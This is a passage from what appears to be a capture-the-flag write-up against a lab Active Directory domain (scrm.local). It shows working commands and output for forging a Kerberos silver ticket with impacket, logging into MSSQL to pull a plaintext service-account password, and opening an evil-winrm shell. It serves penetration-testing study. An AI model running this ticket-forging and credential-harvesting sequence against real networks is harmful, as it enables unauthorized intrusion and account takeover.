  - Let's generate a ticket with `impacket-ticketer`
```
└─$ impacket-ticketer -nthash b999a16500b87d17ec7f2e2a68778f05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local -dc-ip dc1.scrm.local -spn MSSQLSvc/dc1.scrm.local:1433 administrator
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for scrm.local/administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in administrator.ccache
```
```
└─$ klist
klist: No credentials cache found (filename: /tmp/krb5cc_1000)
```
```
└─$ KRB5CCNAME=administrator.ccache klist
Ticket cache: FILE:administrator.ccache
Default principal: administrator@SCRM.LOCAL

Valid starting       Expires              Service principal
09/13/2023 17:37:26  09/10/2033 17:37:26  MSSQLSvc/dc1.scrm.local:1433@SCRM.LOCAL
        renew until 09/10/2033 17:37:26
```

- Let's connect to database using ticket
```
└─$ KRB5CCNAME=administrator.ccache impacket-mssqlclient -k dc1.scrm.local
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC1): Line 1: Changed database context to 'master'.
[*] INFO(DC1): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (SCRM\administrator  dbo@master)>
```

- Enumerate database
  - https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server
```
SQL (SCRM\administrator  dbo@master)> SELECT name FROM master.dbo.sysdatabases;
name         
----------   
master       

tempdb       

model        

msdb         

ScrambleHR   

SQL (SCRM\administrator  dbo@master)> use ScrambleHR;
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: ScrambleHR
[*] INFO(DC1): Line 1: Changed database context to 'ScrambleHR'.
SQL (SCRM\administrator  dbo@ScrambleHR)> SELECT * FROM ScrambleHR.INFORMATION_SCHEMA.TABLES;
TABLE_CATALOG   TABLE_SCHEMA   TABLE_NAME   TABLE_TYPE   
-------------   ------------   ----------   ----------   
ScrambleHR      dbo            Employees    b'BASE TABLE'   

ScrambleHR      dbo            UserImport   b'BASE TABLE'   

ScrambleHR      dbo            Timesheets   b'BASE TABLE'   

SQL (SCRM\administrator  dbo@ScrambleHR)> SELECT * from Employees;
EmployeeID   FirstName   Surname   Title   Manager   Role   
----------   ---------   -------   -----   -------   ----   
SQL (SCRM\administrator  dbo@ScrambleHR)> SELECT * from UserImport;
LdapUser   LdapPwd             LdapDomain   RefreshInterval   IncludeGroups   
--------   -----------------   ----------   ---------------   -------------   
MiscSvc    ScrambledEggs9900   scrm.local                90               0   

SQL (SCRM\administrator  dbo@ScrambleHR)> SELECT * from Timesheets;
EmployeeID   TimeStart   TimeEnd   
----------   ---------   -------   

```

- We have creds, let's try `winrm`
```
└─$ evil-winrm -h                                            
                                        
Evil-WinRM shell v3.5

Usage: evil-winrm -i IP -u USER [-s SCRIPTS_PATH] [-e EXES_PATH] [-P PORT] [-p PASS] [-H HASH] [-U URL] [-S] [-c PUBLIC_KEY_PATH ] [-k PRIVATE_KEY_PATH ] [-r REALM] [--spn SPN_PREFIX] [-l]
    -S, --ssl                        Enable ssl
    -c, --pub-key PUBLIC_KEY_PATH    Local path to public key certificate
    -k, --priv-key PRIVATE_KEY_PATH  Local path to private key certificate
    -r, --realm DOMAIN               Kerberos auth, it has to be set also in /etc/krb5.conf file using this format -> CONTOSO.COM = { kdc = fooserver.contoso.com }
    -s, --scripts PS_SCRIPTS_PATH    Powershell scripts local path
        --spn SPN_PREFIX             SPN prefix for Kerberos auth (default HTTP)
    -e, --executables EXES_PATH      C# executables local path
    -i, --ip IP                      Remote host IP or hostname. FQDN for Kerberos auth (required)
    -U, --url URL                    Remote url endpoint (default /wsman)
    -u, --user USER                  Username (required if not using kerberos)
    -p, --password PASS              Password
    -H, --hash HASH                  NTHash
    -P, --port PORT                  Remote host port (default 5985)
    -V, --version                    Show version
    -n, --no-colors                  Disable colors
    -N, --no-rpath-completion        Disable remote path completion
    -l, --log                        Log the WinRM session
    -h, --help                       Display this help message

```

- We need to change add `SCRM.LOCAL` realm in `/etc/krb5.conf`
```
└─$ cat /etc/krb5.conf                                                   
[libdefaults]
        default_realm = SCRM.LOCAL 

# The following krb5.conf variables are only for MIT Kerberos.
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        rdns = false


# The following libdefaults parameters are only for Heimdal Kerberos.
        fcc-mit-ticketflags = true

[realms]
        SCRM.LOCAL = {
                kdc = dc1.scrm.local
                master_kdc = dc1.scrm.local
                admin_server = dc1.scrm.local
                default_domain = dc1.scrm.local
        }

[domain_realm]
        .scrm.local = SCRM.LOCAL
        scrm.local = SCRM.LOCAL

```

- Now, let's get get ticket
  - `MiscSvc:ScrambledEggs9900`
```
└─$ impacket-getTGT scrm.local/MiscSvc:ScrambledEggs9900 -dc-ip dc1.scrm.local                                                                                                              
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Saving ticket in MiscSvc.ccache
```


## Root
- `whoami`
```
*Evil-WinRM* PS C:\Users\miscsvc\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
SCRM\ITShare                                Group            S-1-5-21-2743207045-1827831105-2542523200-1609 Mandatory group, Enabled by default, Enabled group
SCRM\ITUsers                                Group            S-1-5-21-2743207045-1827831105-2542523200-1610 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity  Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448

```

- Now we can access `IT` share
  - Inside we have `Sales Order Client` application
  - Let's download it
```
*Evil-WinRM* PS C:\Shares\IT\Apps\Sales Order Client> ls


    Directory: C:\Shares\IT\Apps\Sales Order Client


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        11/5/2021   8:52 PM          86528 ScrambleClient.exe
-a----        11/5/2021   8:52 PM          19456 ScrambleLib.dll

```
- Let's feed it to `dnspy`
```
└─$ file  ScrambleClient.exe 
ScrambleClient.exe: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```



- 